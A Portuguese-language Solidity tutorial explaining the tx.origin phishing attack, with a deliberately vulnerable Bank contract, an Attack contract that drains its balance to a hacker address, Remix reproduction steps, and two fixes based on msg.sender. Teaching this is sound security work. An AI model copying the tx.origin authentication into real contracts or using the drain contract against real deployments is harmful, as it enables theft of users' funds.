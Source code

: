 # WTF Solidity: S12. Ataque de Phishing tx.origin

Recentemente, tenho revisado meus conhecimentos em Solidity para consolidar os detalhes e também para escrever um "WTF Solidity Simplificado" para iniciantes (os programadores experientes podem procurar outros tutoriais). Estarei postando de 1 a 3 lições por semana.

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science) | [@WTFAcademy_](https://twitter.com/WTFAcademy_)

Comunidade: [Discord](https://discord.gg/5akcruXrsk) | [Grupo no WeChat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link) | [Site Oficial wtf.academy](https://wtf.academy)

Todo o código e tutoriais são de código aberto no GitHub: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

---

Nesta lição, vamos discutir o ataque de phishing tx.origin em contratos inteligentes e métodos para prevenir esse tipo de ataque.

## Ataque de Phishing com tx.origin

Quando eu estava no ensino fundamental, gostava muito de jogar videogame, mas os desenvolvedores, para evitar o vício de menores de idade, implementaram uma política em que apenas jogadores com mais de dezoito anos, verificados por meio de um número de identidade, poderiam jogar sem restrições. Como contornar essa política? Eu usei o número de identidade dos meus pais para verificar minha idade e consegui burlar o sistema. Esse caso se assemelha ao ataque de phishing com tx.origin.

No Solidity, o uso de `tx.origin` permite obter o endereço que iniciou a transação e é semelhante ao `msg.sender`. A diferença é que, se o usuário A chamar o contrato B, que por sua vez chama o contrato C, o `msg.sender` em C será o contrato B e o `tx.origin` será o usuário A. Para entender mais sobre o mecanismo de `call`, você pode ler a [S22. Chamada de Função](https://github.com/AmazingAng/WTF-Solidity/blob/main/22_Call/readme.md).

Dessa forma, se um contrato bancário usa `tx.origin` para autenticar a identidade, um hacker poderá implantar um contrato malicioso e induzir o proprietário do contrato a chamá-lo. Mesmo que o `msg.sender` seja o endereço do contrato malicioso, o `tx.origin` será o endereço do proprietário do contrato bancário, o que permitirá a realização de transferências.

## Exemplo de Contrato Vulnerável

### Contrato Bancário

Vamos analisar um contrato bancário simples, com uma variável de estado `owner` para registrar o proprietário do contrato. Ele possui um construtor e uma função pública:

- Construtor: atribui o valor de `msg.sender` à variável `owner` durante a criação do contrato.
- `transfer()`: esta função recebe os parâmetros `_to` e `_amount` e verifica se `tx.origin == owner` antes de transferir a quantidade `_amount` de ETH para o endereço `_to`. **Observação: essa função é vulnerável a ataques de phishing!**

```solidity
contract Bank {
    address public owner; // Armazena o proprietário do contrato

    // Atribui o valor de msg.sender à variável owner
    constructor() payable {
        owner = msg.sender;
    }

    function transfer(address payable _to, uint _amount) public {
        // Verifica a origem da mensagem !!! Existe um risco de phishing
        require(tx.origin == owner, "Not owner");
        // Transfere ETH
        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
}
```

### Contrato Malicioso

Agora, vamos ver o contrato malicioso. Ele possui uma função `attack()` simples, que é usada para realizar o ataque de phishing, transferindo todo o saldo do contrato bancário para o endereço do hacker. O contrato possui duas variáveis de estado: `hacker` e `bank`, que armazenam o endereço do hacker e do contrato bancário a ser atacado, respectivamente.

Ele contém duas funções:

- Construtor: inicializa o endereço do contrato bancário.
- `attack()`: essa função é usada para induzir o proprietário do contrato bancário a chamar o contrato malicioso, que por sua vez chama a função `transfer()` do contrato bancário, verificando se `tx.origin == owner` e transferindo todo o saldo para o endereço do hacker.

```solidity
contract Attack {
    address payable public hacker;
    Bank bank;

    constructor(Bank _bank) {
        bank = Bank(_bank);
        hacker = payable(msg.sender);
    }

    function attack() public {
        bank.transfer(hacker, address(bank).balance);
    }
}
```

## Reproduzindo no `Remix`

**1.** Defina o `value` como 10 ETH, implante o contrato `Bank` e o endereço do proprietário `owner` será definido como o endereço do contrato implantado.

**2.** Mude para outra carteira, que será usada como a carteira do hacker, informe o endereço do contrato bancário a ser atacado e implante o contrato `Attack`, onde o endereço do hacker será definido como o endereço do contrato implantado.

**3.** Volte para o endereço `owner` e chame a função `attack()` do contrato `Attack`, induzindo a transferência de todo o saldo do contrato `Bank` para o endereço do hacker.

## Métodos de Prevenção

Atualmente, existem duas maneiras de prevenir o ataque de phishing com `tx.origin`:

### 1. Usar `msg.sender` em vez de `tx.origin`

`msg.sender` obtém o endereço do remetente direto da chamada atual ao contrato. Verificando o valor de `msg.sender`, você pode evitar chamadas maliciosas de contratos externos.

```solidity
function transfer(address payable _to, uint256 _amount) public {
  require(msg.sender == owner, "Not owner");

  (bool sent, ) = _to.call{value: _amount}("");
  require(sent, "Failed to send Ether");
}
```

### 2. Verificar `tx.origin == msg.sender`

Se você precisa usar `tx.origin`, verifique se `tx.origin` é igual a `msg.sender` para evitar chamadas maliciosas de contratos externos. Porém, essa abordagem rejeitará qualquer chamada de função feita por outros contratos.

```solidity
function transfer(address payable _to, uint _amount) public {
    require(tx.origin == owner, "Not owner");
    require(tx.origin == msg.sender, "can't call by external contract");
    (bool sent, ) = _to.call{value: _amount}("");
    require(sent, "Failed to send Ether");
}
```

## Conclusão

Nesta lição, abordamos o ataque de phishing com `tx.origin` em contratos inteligentes e métodos para prevenir esse tipo de ataque: usando `msg.sender` em vez de `tx.origin` ou verificando se `tx.origin == msg.sender`. A primeira abordagem é a mais recomendada, pois a segunda rejeitará chamadas de função feitas por outros contratos.

